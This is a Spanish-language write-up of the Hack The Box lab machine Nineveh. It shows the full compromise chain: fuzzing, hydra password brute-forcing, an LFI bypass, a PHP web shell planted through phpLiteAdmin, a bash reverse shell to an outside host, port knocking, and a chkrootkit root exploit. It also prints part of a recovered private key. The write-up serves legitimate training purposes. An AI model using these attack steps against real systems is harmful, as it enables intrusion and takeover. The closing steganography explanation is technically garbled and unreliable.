 # 10.10.10.43 - Nineveh
![Nineveh](https://user-images.githubusercontent.com/96772264/205054534-4ab9aaf2-479e-4440-8068-4f837c0e6c0d.png)

-----------------------
# Parte 1: Reconocimiento

Puertos abiertos 80(http), 443(https):
- Puerto 80 -> Apache/2.4.18
- Puerto 443 -> Apache/2.4.18, nineveh.htb

Ponemos en el **/etc/hosts** el dominio **nineveh.htb**
La web del puerto 443 nos muestra una foto (pero hacerle un exiftool o strings para ver contenido oculto no devuelve nada)

![nine1](https://user-images.githubusercontent.com/96772264/205054606-ed6a1eb4-2b23-411d-8091-56e9a4ed844b.PNG)

-------------------------------
# Parte 2: Web del puerto 80 -> LFI

![nine2](https://user-images.githubusercontent.com/96772264/205055109-dd9018b6-6572-49fb-8369-8f789bcb108a.PNG)

Fuzzing:
```console
└─$ wfuzz -c --hl=5 -w $(locate subdomains-top1million-5000.txt) -H "Host: FUZZ.nineveh.htb" -u http://nineveh.htb/ -t 100
└─$ wfuzz -c --hc=404 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://nineveh.htb/FUZZ/
000003008:   200        1 L      3 W        68 Ch       "department"
```
La página **/department** tiene un panel de login. Si pongo de usaurio "admin" me sale "Invalid Password!" 

```console
└─$ hydra -P /usr/share/wordlists/rockyou.txt -l admin nineveh.htb http-post-form '/department/login.php:username=admin&password=^PASS^:F=Invalid Password!' -t 64
[80][http-post-form] host: nineveh.htb   login: admin   password: 1q2w3e4r5t
```
Conseguimos entrar con esa contraseña, y encontramos en **/notes**
![Captura](https://user-images.githubusercontent.com/96772264/205055034-bc54dfc6-bb78-475d-b5da-f623065228f5.PNG)

```
Mira tu carpeta secreta para llegar! Deducela! Ese es tu reto

Mejora la interfaz de la base de datos
~amrois
```

Si vemos la url tenemos: "10.10.10.43/department/manage.php?notes=files/ninevehNotes.txt" Ademas tenemos una cookie del tipo PHPSESSID  
```console
└─$ curl -s --cookie "PHPSESSID=r9rc4nq15k34d7e09ua4m6jaq3" http://10.10.10.43/department/manage.php?notes=files/ninevehNotes.txt
```
Hacemos un script para interactuar mas cómodamente "files.sh"  
```bash
#!/bin/bash

while true; do
    echo -n "$:> " && read file
    curl -s --cookie "PHPSESSID=r9rc4nq15k34d7e09ua4m6jaq3" \
    http://10.10.10.43/department/manage.php?notes=$file | html2text
done
```
```console
└─$  files.sh
$:> files/ninevehNotes.txt # lo mismo
$:> ../../../../files/ninevehNotes.txt # path traversal
Warning:  include(): Failed opening '../../../../files/ninevehNotes.txt' for inclusion 
(include_path='.:/usr/share/php') in /var/www/html/department/manage.php on line 31
$:> files/ninevehNotes.txt/../../../../../../etc/passwd # el mismo error
$:> files/ # No Note is selected.
$:> /var/www/html/department/manage.php # No Note is selected
$:> files/ninevehNote # No Note is selected.
$:> files/ninevehNotes # el error largo 
$:> files/ninevehNotes/../../../../../../../etc/passwd  # Asi se logra bypasear esto
```
Esto se debe a que "files/ninevehNotes" esta whitelisteado, es decir tiene que estar por narices  
```bash
file=$1
curl -s --cookie "PHPSESSID=r9rc4nq15k34d7e09ua4m6jaq3" \
http://10.10.10.43/department/manage.php?notes=files/ninevehNotes/../../../../../../$file | html2text
```
```console
└─$ ./files.sh /etc/passwd | grep "sh$"
# Usuarios -> el amrois este
└─$ ./files.sh /proc/net/fib_trie | grep "LOCAL" -B 1 | grep -oP '\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}' | sort -u  | tr "\n" " "
# 10.10.10.43 127.0.0.1 # O sea no hay dockers
└─$ ./files.sh /proc/net/tcp
# Puerto 22, 443 y 80.
```

----------------------------
# Parte 3: Web del puerto 443

```console
└─$ curl -s https://nineveh.htb/ninevehForAll.png -k -O
└─$ exiftool ninevehForAll.png # Nada interesante aparte de Software : Shutter

└─$ wfuzz -c --hc=404 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt https://nineveh.htb/FUZZ/
000000835:   200        485 L    974 W      11430 Ch    "db"
000095763:   200        5 L      7 W        71 Ch       "secure_notes"
```

secure-notes nos da una imagen:
![nine7](https://user-images.githubusercontent.com/96772264/205055213-2b24cf05-924e-403a-81d7-71ae7cbe6aaa.PNG)

```console
└─$ curl https://10.10.10.43/secure_notes/nineveh.png -O -k
└─$ exiftool nineveh.png # Nada
└─$ strings nineveh.png
# llave de amrois y llave privada que copiamos con el nombre id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAri9EUD7bwqbmEsEpIeTr2KGP/wk8YAR0Z4mmvHNJ3UfsAhpI
...
└─$ chmod 600 id_rsa
└─$ ssh -i id_rsa amrois@nineveh.htb
# Error puerto 22 cerrado
```

Tenemos un panel de login, si le ponemos la contraseña que obtuvimos en la otra vez con hydra dice "Incorrect password." 
![nine4](https://user-images.githubusercontent.com/96772264/205055236-0bd58413-1079-490e-9dd6-0c4e68c52204.PNG)

```console
└─$ hydra -P /usr/share/wordlists/rockyou.txt -l admin nineveh.htb https-post-form '/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:F=Incorrect password' -t 64
[443][http-post-form] host: nineveh.htb   login: admin   password: password123
```
Entramos, Nos topamos con un panel de administración:  
Como no sabemos aparentemente que hacer y tenemos que esto se llama phpLiteAdmin: ```searchsploit phpliteadmin```  

El exploit "24044.txt" dice que:  
1. Php lite admin te puede dejar crear una base de datos, si no le pones una extension (ej database.db) se la pone ello solo.  
2. Un atacante puede crear una database.php ej "hack.php" que esto guardará esa base de datos sqlite en el mismo lado que phpliteadmin.php  
3. Crear una tabala en esa database y meter como texto "<?php phpinfo()?>"   
4. Correrlo    

![nine5](https://user-images.githubusercontent.com/96772264/205055263-3d72f022-3f7c-4452-b83d-719b2acbf5a5.PNG)
![nine6](https://user-images.githubusercontent.com/96772264/205055282-d890aeed-70ef-4066-8965-5f4741c35db2.PNG)

Creamos la database/tabla y le ponemos como texto ```<?php system($_GET["cmd"]); ?>```  
Dice que la ruta donde lo guarda es "/var/tmp/hack.php:  
```console
└─$ ./files.sh /var/tmp/hack.php
Parse error:  syntax error, unexpected 'cmd' (T_STRING), expecting ']' in /var/
└─$ ./files.sh "var/tmp/hack.php&cmd=pwd";   # el & en lugar de ? por haber un ? previo.
```

----------------------------
# Parte 4: En el sistema

```bash -c 'bash -i >& /dev/tcp/10.10.14.16/666 0>&1'``` Cambiando los "&" por "%26" y tenemos la shell:
Si enumeramos el sistema con nuestro [script de confianza](https://github.com/CUCUxii/Pentesting-tools/blob/main/lin_info_xii.sh)
- Usarios: root y amrois  
- /etc/apache2/sites-enabled/000-default.conf  
- Backups: /var/backups/group.bak /var/backups/gshadow.bak /var/backups/passwd.bak /var/backups/shadow.bak  
- Corriendo el /usr/sbin/knockd   

Knock es un programa para abrir puertos en el firewall (el 22 en este caso) "golpeando" otros antes, como una especie de contraseña: 
```console
www-data@nineveh:/tmp$ cat /etc/knockd.conf
[openSSH]  sequence = 571, 290, 911 
└─$ for port in 571 290 911; do nmap -Pn --host-timeout 100 --max-retries 0 -p $port 10.10.10.43 ; done
# Ya con esto tenemos los puertos abiertos
└─$ ssh -i id_rsa amrois@nineveh.htb
amrois@nineveh:~$
```

Tambien subimos el [procmon.sh](https://github.com/CUCUxii/Pentesting-tools/blob/main/procmon.sh)  
- /bin/sh /usr/bin/chkrootkit  

Buscamos el exploit y damos con "linux/local/33899.txt"  **CVE-2014-0476**
Los pasos que da el exploit (segun esto ejecutar todo archivo llamado /tmp/update): 
```console
amrois@nineveh:~$ nano /tmp/update
#!/bin/bash
chmod u+s /bin/bash
amrois@nineveh:~$ chmod +x /tmp/update
amrois@nineveh:~$ bash -p
bash-4.3# whoami
root
```
La explicación es un error en el código del chkrootkit por no entrecomillar una linea.
```bash
SLAPPER_FILES="/tmp/.bugtraq /tmp/.bugtraq.c /tmp/.unlock /tmp/httpd /tmp/update"

for i in ${SLAPPER_FILES}; do   # Por cada uno de estos archivos (que se almacenan como $i)
   if [ -f ${i} ]; then			# Si no es una carpeta
      file_port=$file_port $i	# Esta linea ejecuta i porque que faltan los "" (entonces no es una string sino un comando) -> "$file_port $i"
      STATUS=1					# Lo da por bueno
   fi
```
----------------------------
# Extra: Estenografía

```
└─$ binwalk nineveh.png                                                                                         13DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 1497 x 746, 8-bit/color RGB, non-interlaced
84            0x54            Zlib compressed data, best compression
2881744       0x2BF8D0        POSIX tar archive (GNU)
```

Si hacemos un vim a la foto
```console
10395 <85>^DGaÐXt6[åpy]=]µJ~×`ÈeRB<99><82>E'n^[^Nh4FÐåùå/...
      @^@^@^@^@^@^@^@^@^@^@^@^@-----BEGIN RSA PRIVATE KEY-----
10396 MIIEowIBAAKCAQEAri9EUD7bwqbmEsEpIeTr2KGP/wk8YAR0Z4mmvHNJ3UfsAhpI
```
Todos esos caracteres raros ^DGaÐ son los bits de la foto forzadamente pasados a ascii o sea el bit que puede significar "traduce este pixel a 130% de rojo"
se puede traducir por ejemplo en "A}". Los que se ven "@^" esque no tienen traduccion posible ya que 256 (posibles valores numericos de un bit) es mayor que 
el numero de caracteres unicode o ascii asi que hay muchos que se quedan sin nada. 
Entre toda esa sopa de bits, si que hay fragmentos de texto escondidos que son utiles, o sea la informacion escondida.







